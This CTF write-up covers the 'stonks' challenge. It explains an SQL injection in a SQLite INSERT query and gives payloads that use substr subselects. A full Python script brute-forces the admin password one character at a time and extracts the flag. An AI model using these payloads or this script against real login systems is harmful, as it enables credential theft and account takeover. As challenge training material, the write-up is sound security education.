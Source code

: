 # stonks (123 points)
**Description :** *Aaron has a message for the cool kids. For support, DM BrownieInMotion. [cool.mc.ax](https://cool.mc.ax/)*

**Given files :** *[app.py](https://static.redpwn.net/uploads/e03916d52bb7e84cbd2f9f26e5de162fdd0442c40d8397a103aab5813031fd83/app.py)*

### Write-up :

The code on line 49 is vulnerable to an SQL injection attack:
```
	execute(
		'INSERT INTO users (username, password)'
		f'VALUES (\'{username}\', \'{password}\');'
	)
```

`username` must be strictly alphanumeric thanks to the check on line 38 (`if any(c not in allowed_characters for c in username):`), so our payload must go in `password`.

Our payload has a few constraints:
- `password` may be no longer than 50 characters
- `username` must not already exist in the database
- `execute()` will error if passed more than one query, so our attack must use the same `INSERT INTO` query

Let's first take a look at sqlite's `INSERT` syntax:

![file](images/INSERT.png)

My first attempt was to try to use an `upsert-clause` to change the password of the ginkoid user, however, the shortest payload I could find to do this was:
```
'),('ginkoid','') ON CONFLICT DO UPDATE SET password='';--
```
which is 8 characters over our limit, which won't do.

I instead decided to go down the route of bruteforcing the password one character at a time.

I wanted to create a new user, whose password was a single character from ginkoid's password. This would allow me to bruteforce only this character. We can see that the values for the password are `expr`s, so let's take a look at the syntax for that:

![file](images/expr.png)

The parts I am interested in are the `select-stmt`s, as these will let me extract characters from ginkoid's password. This led me to the payload:

```
'||(SELECT substr(password,<index>,1) FROM users));--
```

The `SELECT` statement will take the character at `index` in ginkoid's password, and concatenate it with `''`, to be used as the new user's password. We can then try logging in as our new user with every character in `allowed_characters` as the password. If we login successfully, then we know that we guessed the character correctly. Repeating this for all 32 characters gives us our password.

The full exploit script can be found below:

```py
import requests
import re

s = requests.Session()

def register(username, password):
	req = {'username': username, 'password': password}
	page = s.post('https://cool.mc.ax/register', data=req)

	if 'You are logged in!' not in page.text:
		print(f'failed to register username: {username}')
		print(page.text)
		exit(1)

def logout():
	s.get('https://cool.mc.ax/logout')

def login(username, password):
	logout()
	req = {'username': username, 'password': password}
	page = s.post('https://cool.mc.ax/', data=req)
	return 'You are logged in!' in page.text

def make_username(user):
	username = 'myaccountJ' + str(user)
	return username.replace('0', 'X')

def bruteforce_char(i):
	pswd = f"'||(SELECT substr(password,{i+1},1) FROM users));--"
	register(make_username(i), pswd)

	allowed_characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789'
	for c in allowed_characters:
		success = login(make_username(i), c)
		if success:
			print(c)
			return c
	
	print(f"ERROR: UNABLE TO BRUTEFORCE CHARACTER AT INDEX {i}")
	exit(1)

def main():
	computed_pswd = ''

	for i in range(32):
		computed_pswd += bruteforce_char(i)

	print(f"password: {computed_pswd}")

	req = {'username': 'ginkoid', 'password': computed_pswd}
	page = s.post('https://cool.mc.ax/', data=req)
	print(re.findall("flag\{[ -z|~]+\}", page.text)[0])

main()
```